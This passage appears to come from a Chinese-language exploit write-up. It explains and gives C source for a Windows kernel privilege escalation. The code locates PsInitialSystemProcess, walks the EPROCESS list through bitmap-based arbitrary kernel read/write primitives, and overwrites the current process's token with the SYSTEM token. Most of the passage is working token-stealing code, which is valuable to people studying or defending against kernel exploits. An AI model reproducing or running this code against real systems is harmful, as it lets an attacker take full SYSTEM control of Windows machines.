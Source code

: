 函数PsInitalSystemProcess会将ntoskrnl.exe加载到内存中，并使用用户GetProcAddress获取导出的PsInitialSystemProcess的地址，然后它将通过使用EnumDeviceDrivers（）函数获取内核基址。 从加载的ntoskrnl.exe中减去PsInitialSystemProcess将导致PsInitalSystemProcess与内核库的偏移量，将此偏移量添加到检索到的内核库中将返回PsInitialSystemProcess指针的内核地址。

```C
LONG64 PsGetCurrentProcess()
{
	ULONG64 pEPROCESS = PsInitialSystemProcess();// get System EPROCESS
	 // walk ActiveProcessLinks until we find our Pid
	LIST_ENTRY ActiveProcessLinks;
	ReadFromAddress(pEPROCESS + gConfig.UniqueProcessIdOffset + sizeof(ULONG64), (BYTE *)&ActiveProcessLinks, sizeof(LIST_ENTRY));
	ULONG64 res = 0;
	while (TRUE) {
		ULONG64 UniqueProcessId = 0;
		// adjust EPROCESS pointer for next entry
		pEPROCESS = (ULONG64)(ActiveProcessLinks.Flink) - gConfig.UniqueProcessIdOffset - sizeof(ULONG64);
		// get pid
		ReadFromAddress(pEPROCESS + gConfig.UniqueProcessIdOffset, (BYTE *)&UniqueProcessId, sizeof(ULONG64));
		// is this our pid?
		if (GetCurrentProcessId() == UniqueProcessId) {
			res = pEPROCESS;
			break;
		}
		// get next entry
		ReadFromAddress(pEPROCESS + gConfig.UniqueProcessIdOffset + sizeof(ULONG64), (BYTE *)&ActiveProcessLinks, sizeof(LIST_ENTRY));
		// if next same as last, we reached the end
		if (pEPROCESS == (ULONG64)(ActiveProcessLinks.Flink) - gConfig.UniqueProcessIdOffset - sizeof(ULONG64))
			break;
	}
	return res;
}
```

然后，它将使用manager和worker bitmaps遍历EPROCESS列表以查找此列表中的当前进程条目，一旦找到，该函数将使用该位图从EPROCESS列表中的第一个条目读取SYSTEM令牌，并且 将其写入EPROCESS列表中当前流程条目的令牌。

```C
// get System EPROCESS
ULONG64 SystemEPROCESS = PsInitialSystemProcess();
//fprintf(stdout, "\r\n%x\r\n", SystemEPROCESS);
ULONG64 CurrentEPROCESS = PsGetCurrentProcess();
//fprintf(stdout, "\r\n%x\r\n", CurrentEPROCESS);
ULONG64 SystemToken = 0;
// read token from system process
ReadFromAddress(SystemEPROCESS + gConfig.TokenOffset, (BYTE *)&SystemToken, 0x8);
// write token to current process
ULONG64 CurProccessAddr = CurrentEPROCESS + gConfig.TokenOffset;
SetAddress((BYTE *)&CurProccessAddr);
WriteToAddress((BYTE *)&SystemToken);
// Done and done. We're System :)
```
